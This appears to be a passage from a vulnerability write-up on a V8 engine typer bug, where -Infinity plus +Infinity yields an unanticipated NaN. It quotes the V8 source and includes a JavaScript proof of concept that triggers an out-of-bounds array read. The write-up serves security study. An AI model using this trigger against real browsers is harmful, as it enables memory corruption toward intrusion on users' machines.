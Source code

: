 ```
  Type resultant_type =
      (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
          ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
          : typer_->operation_typer()->NumberSubtract(initial_type,
                                                      increment_type);
  maybe_nan = resultant_type.Maybe(Type::NaN());
}
```

The code above shows that the typer only checks 1 scenario where the result of the change will be NaN (this can be verified by reading through the rest of that function). In the "change" part of the for loop `initial_type` is the induction variable and `increment_type` is the thing modifying it. If both variables are `kInteger` types, then it will check if their result can be NaN. If either is already NaN, then obviously the result can be NaN, but it turns out there is another situation where the result will be NaN, if +/- Infinity is added to it's opposite. These values are not part of `kInteger`, so they will not be checked. Here in lies the confusion. The result should be NaN, and will be at runtime, but the typer doesn't see that situation as possible when it is optimizing the rest of the function.

Now that we see how the code is vulnerable, let's look at the PoC to get an idea of how to trigger the vulnerability and further turn that into an OOB array access.

```
function trigger() {
var x = -Infinity;
var k = 0;
for (var i = 0; i < 1; i += x) {
    if (i == -Infinity) {
      x = +Infinity;
    }

    if (++k > 10) {
      break;
    }
}

var value = Math.max(i, 1024);
value = -value;
value = Math.max(value, -1025);
value = -value;
value -= 1022;
value >>= 1; // *** 3 ***
value += 10; //

var array = Array(value);
array[0] = 1.1;
return [array, {}];
};

for (let i = 0; i < 20000; ++i) {
trigger();
}

console.log(trigger()[0][11]);
```
